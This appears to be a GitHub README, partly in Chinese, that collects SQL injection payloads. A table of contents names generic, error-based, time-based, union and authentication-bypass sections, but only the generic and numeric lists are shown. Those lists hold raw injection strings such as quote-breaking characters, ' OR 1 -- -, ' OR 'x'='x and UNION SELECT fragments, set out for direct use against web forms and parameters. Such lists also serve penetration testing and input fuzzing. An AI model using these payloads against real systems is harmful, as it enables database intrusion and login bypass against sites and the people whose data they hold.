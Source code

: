 # Sql-injection-Payload-Find-the-sql

## Summary
* [通用SQL注入负载](#通用SQL注入负载)
* [基于通用错误的有效负载](#基于通用错误的有效负载)
* [基于时间的通用SQL注入负载](#基于时间的通用SQL注入负载)
* [通用联合查询有效负载](#通用联合查询有效负载)
* [SQL注入身份验证绕过有效负载](#SQL注入身份验证绕过有效负载)

## 通用SQL注入负载
'

''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+    addition, concatenate (or space in url)
||    (double pipe) concatenate
%    wildcard attribute indicator

@variable  local variable
@@variable  global variable


## Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
